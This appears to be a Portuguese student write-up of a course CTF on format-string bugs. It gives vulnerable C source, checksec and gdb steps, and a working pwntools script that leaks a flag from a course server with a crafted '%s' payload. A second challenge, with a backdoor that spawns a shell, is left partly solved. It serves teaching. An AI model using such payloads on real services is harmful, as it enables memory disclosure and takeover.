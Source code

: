 
## CTF Part 1

- para sabermos com o que estamos a lidar nos demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scanf esta desprotegido não é efetuada sanatização de um buffer que é utilizado fornecido pelo utilizador(o que nos deixa aplicar a vulnerabilidade do format string), que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global , quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little edian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output

![Alt text](Images/image-71.png)

- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output

![Alt text](Images/image74.png)

- Nos executamos o codigo multiplas vezes e verificamos que o endereço era estatico com isso nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output

![Alt text](Images/image-72.png)

- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 

![Alt text](Images/image-73.png)

## CTF part 2

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
- Este é o main contido pelo zip do desafio 2 so com isto conseguimos ver que este codigo contem a mesma vulnerabilidade que é o scanf imprime diretamente codigo do utilizador sem sanatização conseguimos ver que para conseguirmos a flag nos temos que alterar o valor a key para 0xbeef que em hexadecimal é 48879 
- para ver quais as proteções do programa vamos correr o checksec que da este output
![Alt text](image.png)

- com isto sabemos que estamos outravez diante um addresing com little edian de 32 bits
- proseguimos a encontrar o address da variavel global key utilizando o gdb tal como no exercicio anterior

![Alt text](image-1.png)

- executamos o gdb multiplas vezes e reparamos que o address não se altera e que tem o address com 7 characters porque o primeiro é zero ficando com o address 0x0804b324 como o address esta em little edian o address que vamos utilizar é 0x24 0xb3 0x04 0x08
